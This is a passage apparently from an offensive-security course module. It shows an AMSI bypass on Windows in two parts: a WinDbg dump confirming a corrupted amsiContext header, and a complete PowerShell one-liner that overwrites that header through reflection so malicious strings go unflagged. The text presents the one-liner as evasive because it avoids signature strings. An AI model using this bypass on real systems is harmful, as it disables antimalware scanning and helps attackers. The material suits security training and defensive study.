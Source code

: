 > Listing 36 - Overwriting the amsiContext header bytes

We do not get any output from the executed commands, but we can inspect our work by switching to WinDbg, forcing a break through _Debug_ > _Break_ and dumping the content of the _amsiContext_ buffer:

```
(1284.1ff8): Break instruction exception - code 80000003 (first chance)
ntdll!DbgBreakPoint:
00007fff`d3521f80 cc              int     3
0:010> dc 0x1609A791020
00000160`9a791020  00000000 00000000 806db190 00000160  ..........m.`...
00000160`9a791030  8086dd30 00000160 00000037 00000000  0...`...7.......
00000160`9a791040  6372756f 00007365 cf43afd2 91000300  ources....C.....
00000160`9a791050  554c4c41 53524553 464f5250 3d454c49  ALLUSERSPROFILE=
00000160`9a791060  505c3a43 72676f72 61446d61 00006174  C:\ProgramData..
00000160`9a791070  00000000 00000000 cf5eafd1 80000400  ..........^.....
00000160`9a791080  00000000 00000000 9a791080 00000160  ..........y.`...
00000160`9a791090  00000000 00000000 80000000 00000000  ................
```

> Listing 37 - Verifying the overwritten AMSI header

This output indicates that the context structure header was indeed overwritten, which should force _AmsiOpenSession_ to error out.

Next, let's continue execution in the debugger, switch back to PowerShell, and enter the malicious 'amsiutils' string:

```
PS C:\Users\Offsec> 'amsiutils'
amsiutils
```

> Listing 38 - No detection on amsiutils with corrupted context header

The string was not flagged. Excellent.

We can combine this bypass into a PowerShell one-liner:

```
PS C:\Users\Offsec> $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

PS C:\Users\Offsec> 'amsiutils'
amsiutils
```

> Listing 39 - AMSI bypass through context structure corruption

Not only is this bypass working, but it is difficult to blacklist now that we've removed explicit signature strings and dynamically resolved the types and fields.

This is working well, but it's not the only approach. We'll work through another bypass in the next section.

#### Exercises
